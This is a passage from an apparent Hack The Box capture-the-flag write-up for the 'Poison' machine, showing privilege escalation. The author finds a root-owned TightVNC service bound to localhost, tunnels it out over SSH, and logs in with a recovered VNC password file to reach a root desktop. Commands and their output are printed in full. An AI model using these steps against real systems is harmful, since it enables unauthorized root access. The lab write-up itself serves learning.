 Since the `netstat` command on FreeBSD is a bit different from the `netstat` on most other Linux distributions, I enumerated for listening TCP ports with `sockstat`:

```none
$ sockstat -4 -l
USER     COMMAND    PID   FD PROTO  LOCAL ADDRESS         FOREIGN ADDRESS
root     sendmail   655   3  tcp4   127.0.0.1:25          *:*
www      httpd      653   4  tcp4   *:80                  *:*
www      httpd      652   4  tcp4   *:80                  *:*
www      httpd      651   4  tcp4   *:80                  *:*
www      httpd      650   4  tcp4   *:80                  *:*
www      httpd      649   4  tcp4   *:80                  *:*
root     httpd      634   4  tcp4   *:80                  *:*
root     sshd       620   4  tcp4   *:22                  *:*
root     Xvnc       529   1  tcp4   127.0.0.1:5901        *:*
root     Xvnc       529   3  tcp4   127.0.0.1:5801        *:*
root     syslogd    390   7  udp4   *:514                 *:*
```

Most interestingly, the `Xvnc` service was listeningo on ports 5901 and 5801. Port 5901 was the TightVNC service, and port 5801 was the TightVNC web service.
Since these services were listening locally, I was able to port-forward them to access them from my Kali machine.

```bash
ssh -N -L 127.0.0.1:5901:127.0.0.1:5901 -L 127.0.0.1:5801:127.0.0.1:5801 charix@10.10.10.84
```

After port forwarding both ports, I was able to login to root's TightVNC session leveraging the encoded TightVNC password:

```none
$ vncviewer 127.0.0.1:5901 -passwd /home/kali/htb/machines/poison/privesc/secret
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding
```

From here, I took over an xterm console on the desktop running as root:
